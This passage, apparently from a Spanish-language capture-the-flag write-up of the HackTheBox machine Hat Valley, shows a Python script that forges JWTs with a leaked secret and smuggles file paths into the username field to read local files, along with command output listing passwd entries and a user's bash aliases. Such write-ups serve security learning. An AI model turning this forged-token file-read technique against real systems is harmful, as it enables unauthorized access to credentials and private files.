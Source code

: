 Se nos descarga un archivo all-leave el cual contiene el contenido del archivo seleccionado

```shell
❯ cat all-leave | grep sh$
root:x:0:0:root:/root:/bin/bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```

Para automatizar el LFI, podemos crear este script

```python
#!/usr/bin/python3
import jwt, requests, sys

if len(sys.argv) < 2:
   print(f"\n[\033[1;31m-\033[1;37m] Uso: python3 {sys.argv[0]} <archivo>\n")
   print("[\033[1;34m*\033[1;37m] Para descargar archivos puede usar -d\n")
   exit(1)

file = sys.argv[1]

def generateJWT(file: str) -> str:
    payload = { "username": "/' {} '/".format(file), "iat": 1666898953 }
    secret = "123beany123"
    token = jwt.encode(payload, secret)
    return token

token = generateJWT(file)
target = "http://hat-valley.htb/api/all-leave"
cookies = {"token":token}
request = requests.get(target, cookies=cookies)

try:
    if sys.argv[2] == '-d':
        with open(file.split("/")[-1].strip(),'wb') as f:
            f.write(request.content)

except:
    if request.text == "Failed to retrieve leave requests":
        print("\n[\033[1;31m-\033[1;37m] Archivo no encontrado\n")
        exit(1)
    else:
        print(request.text.strip())
```

Al ver el archivo `passwd`, nos percatamos en el usuario bean, investigaremos su `.bashrc`

```shell
❯ python3 lfi.py /home/bean/.bashrc | grep alias | grep -vE "^\s|^$|^#"
alias ll='ls -alF'
alias la='ls -A'
alias l='ls -CF'
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
if [ -f ~/.bash_aliases ]; then
```
